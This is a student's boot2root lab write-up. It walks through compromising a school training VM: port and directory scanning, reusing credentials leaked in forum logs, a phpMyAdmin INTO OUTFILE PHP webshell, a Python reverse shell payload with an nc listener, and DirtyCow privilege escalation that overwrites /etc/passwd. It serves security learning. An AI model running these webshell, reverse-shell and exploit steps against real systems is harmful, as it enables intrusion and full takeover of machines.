# Boot2Root Writeup 2

Now we can get to actual hacking the machine.
First let's enumerate the machine:

## Port scanning.
Obviously we don't have the ip of the machine. So we need to get that ip first. You can do that by scanning a range of ip addresses.

Doing that to 10.x.x.x would take so much time. But we have already some informations we can use to limit that ip range.

This works on 1337 school. I don't really know how it would be for other schools. Or if you are trying at home. Each floor has its own range. I'm working in the E2, so my virtual machine ip address will be `10.12.x.x`, still scanning this range would take so much time. And will output lot of useless information about all the machines in that floor.

Now if you create a virtual machine and set its network to bridged. It will be under the following range : `10.12.100.x`. This is a scannable range of ip addresses.

Lets go ahead and scan it.
```
$> nmap 10.12.100.x/24
```



Let's check what we have on port 80:



Nothing really important. I tried looking at the source page, but nothing.

Let's see what we got on port 443:



This is weird. Let's see what we can get from a simple dirb.

For this command I installed a simple Kali Linux virtual machine. Then I run `dirb` with `common.txt` to see if any files exists.
I ran it on port 80, nothing was interesting. But all on port 443.
```
$> dirb https://10.12.100.226/ /usr/share/wordlist/dirb/common.txt
```



Now we have 3 main directories to work with `forum`, `phpmyadmin`, `webmail`. Let's enumerate the forum first.



After checking all the posts, I found some kind of logs under `Problem login ?`. After reading it we find that there's a password logged as a user.



Notice that they tried a weird user before trying `lmezard`, but the connection following that worked perfectly.
It's like they tried the password as the user as a mistake.
Using the following credentials we can login into the forum.
```
lmezard
!q\]Ej?*5K5cy*AJ
```



I tried same credentials for `phpmyadmin` and `webmail`, it didn't work.
The forum had nothing interesting or that can help us through our hacking.

But you can see in the image above, we have an email. Trying it with the same password in `phpmyadmin` didn't work.

But it worked with `webmail`.
```
laurie@borntosec.net
!q\]Ej?*5K5cy*AJ
```



Let's see what we have on `DB ACCESS`



Nice so I'm guessing they're talking about `phpmyadmin`. So let's go ahead and try it.
```
root
Fg-'kKXBj87E:aJ$
```



After some enumeration and trying to see if I can find anything interesting. It was an empty handed enumeration.
But still, I didn't notice that I had root access in phpmyadmin until later.

And after some googling, I found a command that can let me upload a simple php command as a file in the system, a webshell may I 
say.

```
select '<?php system($_GET[cmd]);?>'INTO OUTFILE '/var/www/forum/DIR/cmd.php'
```

The problem is that I had to find a directory I can write on and then access it via a simple request.
I went to dirb again.



I tried many directories but the only one that I was able to write on is `templates_c`



Okey so now let's try it in the browser and see if it's actually working.
```
https://10.12.100.226/forum/templates_c/cmd.php?cmd=whoami
```



A reverse shell would make our life so much easier. But first I had to check if python existed on the machine.
```
https://10.12.100.226/forum/templates_c/cmd.php?cmd=python -c 'print("hello")
```



It does, so this will be our payload :
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADD_HOST", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

#lets url encode this just so we can make sure it will work.

python%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.0.0.1%22%2C4242))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bpty.spawn(%22%2Fbin%2Fsh%22)%27%0A
```

But before sending the request we have to listen on port 4444 on our host machine.
```
$> nc -nlv 4444

```

We send the request and boom we have a shell.



## Privelege Escalation

Doing `uname -a` to see what kind of kernel we have here.



We can also run a script named `linpeas` or `Linux Privelege Escalation`, you can find its link [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).(This is not how i solved this step. I just wanted to point it out, cause I have worked with it in hackthebox, tryhackme many times.)



Searching `linux 3.2` in google or using `linpeas` will tell us that this version is exploitable. [Dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) is what we looking for here.

## DirtyCow
DirtyCow is a race condition(similar to the one in snowcrash). Used to give a normal user the ability to access, write, edit file system, or files with unique permissions.
It exists in the Linux kernel's memory subsystem. You can read more about it on their [Dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) official wiki.

Let's chose our exploit :



Basically anyone of these can work. We'll use the last one, since its the easier one to work with. It changes the `/etc/passwd/` root password with a password you specify it.

Let's upload the .c file in our `/tmp` directory in the machine.

```
$> wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

Now let's compile it. You will need 2 flags `-lcrypt` and `-lpthread`. I looked up the reason why and it's just something related to linking the libraries.

```
$> gcc dirty.c -lcrypt -lpthread
```

Let's start our program :



Basically it asks us for a new password to put it in `/etc/passwd`

I `ctrl + c` and launched a new reverse shell then I cated `/etc/passwd/` and the file was actually edited.



And the root user was changed to `firefart` xddd.

Let's go and switch the user.



Voila, we have root again.
